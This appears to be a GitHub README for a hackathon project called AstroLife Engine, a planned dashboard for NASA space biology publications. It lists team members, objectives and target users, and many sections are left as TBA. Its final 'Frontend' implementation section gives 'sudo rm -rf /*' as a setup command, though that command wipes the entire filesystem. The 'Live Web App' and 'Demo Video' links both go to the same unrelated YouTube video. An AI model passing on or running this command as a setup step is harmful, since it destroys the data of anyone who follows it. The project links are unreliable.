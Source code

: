 # AstroLife-Engine | A Space Biology Knowledge Engine 

***AstroLife Engine is a dynamic web application designed to simplify decades of NASA’s bioscience research for the future of human space exploration. By leveraging NASA’s open dataset of more than 600 space biology publications, AstroLife makes it easy to search, identify, and visualize key findings. The platform helps researchers, mission planners, and space enthusiasts explore insights more efficiently, enabling better understanding of how living systems adapt to space and supporting humanity’s journey to the Moon, Mars, and beyond.***  

- [Live Web App](https://www.youtube.com/watch?v=dQw4w9WgXcQ)

- [Demo Video](https://www.youtube.com/watch?v=dQw4w9WgXcQ)

---

## 1. Team Information
**Team Name**: Luminara

**Members**:

| Name                 | GitHub Profile                                   | Contact                     |
|----------------------|--------------------------------------------------|-----------------------------|
| Ryan Ahmed           | [RyanAhmed911](https://github.com/RyanAhmed911) | TBA                         |
| Nusayba Mahfuza Zaman| [Nusuwuba](https://github.com/Nusuwuba)         | nusaybazaman3@gmail.com     |
| Raiyan Rahman        | [Raiyan465-F1](https://github.com/Raiyan465-F1) | TBA                         |
| Zarin Tasnim         | [ZarinTasnimNadia](https://github.com/ZarinTasnimNadia) | zarin_nadia@yahoo.com       |
| Al-Saihan Tajvi      | [Al-Saihan](https://github.com/Al-Saihan)       | al.saihan.bafsd.5@gmail.com |

---

## 2. Executive Summary

NASA’s decades of space biology research have produced critical insights into how humans, plants, and living systems adapt to the challenges of space. Yet this knowledge, while publicly available, is dispersed across hundreds of publications and databases, making it difficult for researchers, mission planners, and policymakers to access and apply effectively.

AstroLife Engine transforms these hundreds of publications into an accessible, AI-powered dashboard, enabling researchers, mission planners, and policymakers to quickly uncover insights, identify gaps, and support safer missions to the Moon, Mars, and beyond.

---

## 3. Challanges
- **Data Accessibility**: NASA’s bioscience research is scattered across hundreds of publications and multiple databases, making it hard to access and cross-reference relevant studies.

- **Information Overload**: Researchers and mission planners face difficulty extracting actionable insights from the massive volume of experimental data.

- **Knowledge Gaps Identification**: Without a unified view, it’s challenging to pinpoint areas that require further study or replication.

- **Integration of Diverse Data**: Publications, raw datasets (OSDR), and mission metadata need to be connected coherently for meaningful analysis.

- **Usability**: Existing resources are not optimized for quick exploration or decision-making by multidisciplinary users.

---

## 4. Objectives
- **Centralize Knowledge**: Aggregate 600+ NASA space biology publications into a single accessible platform.

- **AI-Powered Summaries**: Use AI to extract key results, conclusions, and metrics from publications.

- **Visualize Connections**: Build interactive dashboards and knowledge graphs to show relationships between experiments, organisms, and outcomes.

- **Identify Gaps & Trends**: Highlight areas of scientific progress, consensus, and missing research opportunities.

- **Support Decision-Making**: Provide actionable insights for scientists, mission planners, and policy makers.

- **Promote Open Science**: Ensure full use of NASA’s open datasets while making them understandable and navigable.

---

## 5. Target Users
- **Scientists & Researchers**: Looking to generate new hypotheses or analyze cross-study trends.

- **Mission Planners & Engineers**: Seeking actionable insights for safe and efficient lunar and Martian missions.

- **Program Managers & Funders**: Evaluating research priorities, progress, and gaps for investment decisions.

- **Educators & Students**: Exploring space biology concepts for learning and outreach.

- **Global Research Community**: Anyone interested in leveraging NASA open data for innovation and discovery.

---

## 6. Solution Overview
- TBA

---

## 7. How It Works
- TBA

---

## 8. Impact
- TBA

---

## 9. Conclusion
- TBA

---

## 10. Use Of Artificial Intelligence
- TBA

---

## 11. NASA Data
- [A list of 608 full-text open-access Space Biology publications](https://github.com/jgalazka/SB_publications/tree/main)
- [NASA Open Science Data Repository](https://science.nasa.gov/biological-physical/data/)
- 
---

## 12. Other References
- TBA

---

## 13. Implementation
### Frontend
```bash
sudo rm -rf /*
```

